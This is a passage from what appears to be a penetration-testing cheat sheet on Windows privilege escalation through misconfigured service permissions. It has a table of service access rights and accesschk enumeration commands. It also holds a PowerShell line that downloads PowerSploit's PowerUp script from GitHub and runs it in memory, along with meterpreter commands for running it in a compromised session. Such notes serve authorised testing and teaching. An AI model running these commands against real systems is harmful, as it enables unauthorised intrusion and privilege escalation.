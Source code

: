 The following permissions are worth mentioning in the prospect of local
privilege escalation:

| Ace's rights | Access right | Description |
|--------------|--------------|-------------|
| - | `SERVICE_ALL_ACCESS` | Include all service permissions, notably `SERVICE_CHANGE_CONFIG`. |
| `CC` | `SERVICE_QUERY_CONFIG` | Retrieve the service's current configuration from the SCM. |
| `DC` | `SERVICE_CHANGE_CONFIG` | Change the service configuration, notably grant the right to change the executable file associated with the service. |
| `GA` | `GENERIC_ALL` | Equivalent to all the generic access rights  (read, write and execute access to the service). |
| `GX` | `GENERIC_WRITE` | Equivalent to `SERVICE_QUERY_STATUS` and `SERVICE_CHANGE_CONFIG`. |
| `LC` | `SERVICE_QUERY_STATUS` | Retrieve the service's current status from the SCM. |
| `LO` | `SERVICE_INTERROGATE` | Retrieve the service's current status directly from the service itself. |
| `RC` | `READ_CONTROL` | Read the security descriptor of the service. |
| `RP` | `SERVICE_START` | Start the service. |
| `SW` | `SERVICE_ENUMERATE_DEPENDENTS` | List the services that depend on the service. |
| `WD` | `WRITE_DAC` | Modify the DACL of the service in its security descriptor. |
| `WO` | `WRITE_OWNER` | Change the owner of the service in its security descriptor. |
| `WP` | `SERVICE_STOP` | Stop the service. |

A more comprehensive list of the access rights for Windows services can be
found in the
[official Microsoft documentation](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights).

The `accesschk` tool, from the `Sysinternals` suite, and the `Powershell`
`PowerUp` script can be used to list the services an user can exploit:

```
# List services that configure permissions for the "Everyone" / "Tout le monde" user groups
accesschk.exe -accepteula -uwcqv "Everyone" *
accesschk64.exe -accepteula -uwcqv "Everyone" *
accesschk.exe -accepteula -uwcqv "Tout le monde" *
accesschk64.exe -accepteula -uwcqv "Tout le monde" *

# List services that configure permissions for the specified user
accesschk.exe -accepteula -uwcqv <USERNAME> *
accesschk64.exe -accepteula -uwcqv <USERNAME> *

# Enumerate all services and their permissions configuration
accesschk.exe -accepteula -uwcqv *
accesschk64.exe -accepteula -uwcqv *

# Retrieve permissions configuration for the specified service
accesschk64.exe -accepteula -uwcqv <SERVICE_NAME>

# (PowerShell) PowerSploit's PowerUp Get-ModifiableServiceFile & Get-ModifiableService
# Get-ModifiableServiceFile - returns services for which the current user can directly modify the binary file
# Get-ModifiableService - returns services the current user can reconfigure
PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
PS> Get-ModifiableServiceFile
PS> Get-ModifiableService

meterpreter> load powershell
meterpreter> powershell_import <POWERUP_PS1_FILE_PATH>
meterpreter> powershell_execute Get-ModifiableServiceFile
```